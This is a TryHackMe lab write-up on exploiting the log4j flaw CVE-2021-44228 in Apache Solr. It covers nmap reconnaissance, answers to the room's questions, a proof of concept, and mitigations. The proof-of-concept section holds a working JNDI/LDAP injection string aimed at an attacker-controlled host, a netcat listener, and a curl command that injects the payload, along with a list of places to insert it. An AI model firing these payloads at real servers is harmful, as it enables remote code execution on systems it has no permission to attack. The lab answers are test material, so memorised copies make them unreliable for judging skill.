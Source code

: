 # TryHackMe: Solar, exploiting log4j

_Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun._

[Solar, exploiting log4j](https://tryhackme.com/room/solar)

* * * * * 
* * * * *

## Reconnaissance

Run a basic nmap scan against vulnerable machine:
```
nmap -v IP_ADDRESS
```

Scan all ports on machine via nmap:
```
nmap -v -p- IP_ADDRESS
```

The default Port that SOLR (Apache Solr) runs on is **Port 8983**.

* * *

## Discovery

Download the files `solrlogs`.

What is the `-Dsolr.log.dir` argument set to, displayed on the front page?
```
-Dsolr.log.dir=/var/solr/logs
```

Which file includes contains this repeated entry? (Just the filename itself, no path needed)

```
solr.log
```

What "path" or URL endpoint is indicated in these repeated entries?
```
/admin/cores
```

Viewing these log entries, what field name indicates some data entrypoint that you as a user could control?
```
params
```

* * *

## Proof of Concept

```
http://IP_ADDRESS:8983/solr/admin/cores
```

General payload to abuse log4j vulnerability CVE-2021-44228:
```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```

_JNDI = Java Naming and Directory Interface_

_`ldap://` schema = target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the Lightweight Directory Access Protocol (LDAP) protocol_

Where to supply the inject syntax:
* Input boxes, user and password login forms, data entry points within applications
* HTTP headers such as `User-Agent`, `X-Forwarded-For`, or other customizable headers
* Any place for user-supplied data

Prepare a `netcat` listener on any port of your choosing:
```
nc -lnvp 9999
```

Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility:
```
curl 'http://10.10.236.228:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'
```

* * *
* * * 

## Mitigation

There are some options to try to mitigate this vulnerability. However, bear in mind that it is to "try"!
Things might change, and mitigation also depends on several other factors.

### Option 1

Manually modify the `solr.in.sh` file with a specific syntax.

Determine where the file exists:
```
locate solr.in.sh
```

The Apache Solr website Security page explains that you can add this specific syntax to the `solr.in.sh` file:

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```

Restart Solr service:
```
sudo /etc/init.d/solr restart
```

### Option 2

Upgrade to a higher version: 2.17.1 or higher.

More info on: https://solr.apache.org/security.html
UPDATE: [Log4j 2.17.1 out now, fixes new remote code execution bug](https://www.bleepingcomputer.com/news/security/log4j-2171-out-now-fixes-new-remote-code-execution-bug/)

### Option 3

Changing the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS` to true, on log4j versions >=2.10:
```
JAVA_OPTS=-Dlog4j2.formatMsgNoLookups=true
```

For log4j versions >=2.7 and <=2.14.1, modify the `PatternLayout` patterns to specifiy the message converter as:
```
%m{nolookups}
```

Source: https://www.thesecmaster.com/how-to-fix-cve-2021-44228-log4shell-a-critical-0-day-rce-in-log4j-logging-library/#How_To_Fix_CVE-2021-44228_Log4Shell_Vulnerability

* * *
* * * 

# Disclaimer

For educational purposes only. This is not legal advice and some options or methods might not work for all systems, architectures, or configurations.
